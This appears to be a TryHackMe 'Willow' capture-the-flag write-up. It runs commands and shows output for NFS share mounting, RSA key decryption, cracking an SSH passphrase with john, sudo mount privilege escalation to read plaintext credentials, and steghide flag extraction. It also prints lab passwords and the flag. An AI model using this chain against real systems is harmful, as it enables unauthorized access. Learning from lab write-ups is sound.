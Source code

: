 ```yaml
---
title: TryHackMe - Willow Writeup
description: My writeup on willow box.
categories:
 - tryhackme
tags: tryhackme, nfs, hex, mount, rsa, john
---
```


Interesting box.

You can find the machine there > [Willow](https://tryhackme.com/room/willow){:target="_blank"}

As always let's start with a nmap scan.

```
$ ip=10.10.238.86
$ nmap -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-14 11:59 EEST
Nmap scan report for 10.10.238.86 (10.10.238.86)
Host is up (0.13s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 43:b0:87:cd:e5:54:09:b1:c1:1e:78:65:d9:78:5e:1e (DSA)
|   2048 c2:65:91:c8:38:c9:cc:c7:f9:09:20:61:e5:54:bd:cf (RSA)
|   256 bf:3e:4b:3d:78:b6:79:41:f4:7d:90:63:5e:fb:2a:40 (ECDSA)
|_  256 2c:c8:87:4a:d8:f6:4c:c3:03:8d:4c:09:22:83:66:64 (ED25519)
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Recovery Page
2049/tcp open  nfs_acl 2-3 (RPC #100227)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's start with http, when we visit the webpage we can see some hex data, let's decode them.

```
$ touch hex.txt
$ nano hex.txt 
$ cat hex.txt | xxd -r -p
Hey Willow, here's your SSH Private key -- you know where the decryption key is!
2367 2367 2367 2367 2367 9709 8600 28638 18410 1735 33029 16186 28374 37248 33029.. +data
```

Interesting, let's check NFS now.

`NFS (Network File System)` -> Allows you to share directories over a network.

Let's identify the shared directory first :

```
$ showmount -e $ip
Export list for 10.10.238.86:
/var/failsafe *
```

Let's mount there now.

```
$ mkdir nfsexploit
$ mount -t nfs $ip:/var/failsafe nfsexploit 
$ cd nfsexploit/
$ ls -la
total 12
drwxr--r-- 2 nobody nogroup 4096 Jan 30 18:31 .
drwxr-xr-x 4 root   root    4096 Jun 14 12:13 ..
-rw-r--r-- 1 root   root      62 Jan 30 18:31 rsa_keys
$ cat rsa_keys 
Public Key Pair: (23, 37627)
Private Key Pair: (61527, 37627)
```

I'm not crypto master, but i know some stuff about RSA.

RSA is an asymmetric encryption system, that means uses two keys : a public key for encryption and a private key for decryption.

`Private Key Pair: (61527, 37627)`

Private Key is made up of (n, d) -> (61527, 37627)

I found an awesome RSA decryption site : [site](https://www.cs.drexel.edu/~jpopyack/Courses/CSP/Fa17/notes/10.1_Cryptography/RSA_Express_EncryptDecrypt_v2.html){:target="_blank"}

![](https://i.ibb.co/RCV5hfy/Screenshot-1.png)

Key is `Proc-Type: 4,ENCRYPTED` now, let's crack it with john.

```
$ locate ssh2john
/usr/share/john/ssh2john.py
$ /usr/share/john/ssh2john.py key > hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Press 'q' or Ctrl-C to abort, almost any other key for status
wildflower       (key)
```

Let's login in now.

```
$ chmod 600 key
$ ssh -i key willow@$ip
Enter passphrase for key 'key': 




	"O take me in your arms, love
	For keen doth the wind blow
	O take me in your arms, love
	For bitter is my deep woe."
		 -The Willow Tree, English Folksong




willow@willow-tree:~$ whoami
willow
```

Let's privesc now, if we run `sudo -l`  we can see this :

```
willow@willow-tree:~$ sudo -l
Matching Defaults entries for willow on willow-tree:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User willow may run the following commands on willow-tree:
    (ALL : ALL) NOPASSWD: /bin/mount /dev/*
```

We can run mount command as root.

`mount` -> mounting is to attach an additional filesystem on the currently filesystem.

`mount DEVICE_NAME DIRECTORY`

Let's check `/dev`.

```
willow@willow-tree:~$ ls -la /dev
..data..
brw-rw----   1 root disk    202,   5 Jun 14 09:58 hidden_backup
..data..
```

Let's do it.

```
willow@willow-tree:~$ sudo mount /dev/hidden_backup /mnt
willow@willow-tree:~$ cd /mnt
willow@willow-tree:/mnt$ ls
creds.txt
willow@willow-tree:/mnt$ cat creds.txt
root:7QvbvBTvwPspUK
willow:U0ZZJLGYhNAT2s
willow@willow-tree:/mnt$ su - root
Password: 
root@willow-tree:~# cat root.txt
This would be too easy, don't you think? I actually gave you the root flag some time ago.
You've got my password now -- go find your flag!

```

Now let's grab the flags lol.

We can see `user.jpg` under willow's directory :

```-rw-r--r--  1 willow willow 12721 Jan 30 19:33 user.jpg```

Let's download it.

```
$ scp -i key willow@10.10.238.86:/home/willow/user.jpg .
Enter passphrase for key 'key': 
user.jpg                   
````

![](https://i.ibb.co/nMSfsNH/Screenshot-2.png)

& we can take root flag with steghide with root's password.

```
$ steghide extract -sf user.jpg 
Enter passphrase: 
wrote extracted data to "root.txt".
[root@0xatom ~/Documents/tryhackme/willow]# cat root.txt 
THM{find_a_red_rose_on_the_grave}
```

Fun box haha, See you! :)
